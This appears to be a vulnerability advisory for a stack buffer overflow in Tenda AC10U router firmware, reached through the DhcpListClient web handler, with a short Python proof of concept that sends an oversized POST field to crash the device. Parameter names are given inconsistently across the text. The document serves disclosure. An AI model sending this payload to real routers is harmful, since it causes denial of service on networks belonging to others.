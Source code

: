 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the listN parameter in the fromDhcpListClient function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "formDhcpListClient" retrieves the parameter "LISTEN" and "listN" using "websGetVar", The POST parameter "listN" is concatenated in the program. However, the program fails to check the length of the POST argument. By setting "LISTEN" equal to 1, we can trigger a stack overflow, causing the program to enter an unsafe state. This overflow can overwrite the "LISTEN" pointer variable, leading to a crash in the atoi function. As a result, a denial-of-service (DoS) attack can be initiated during the second iteration of the loop.

![1705406110658](image/fromDhcpListClient_2/1705406110658.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/DhcpListClient'
payload = {
    "LISTLEN": "1",
    "list1": 'A'*0x300,
    "page": '1'
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
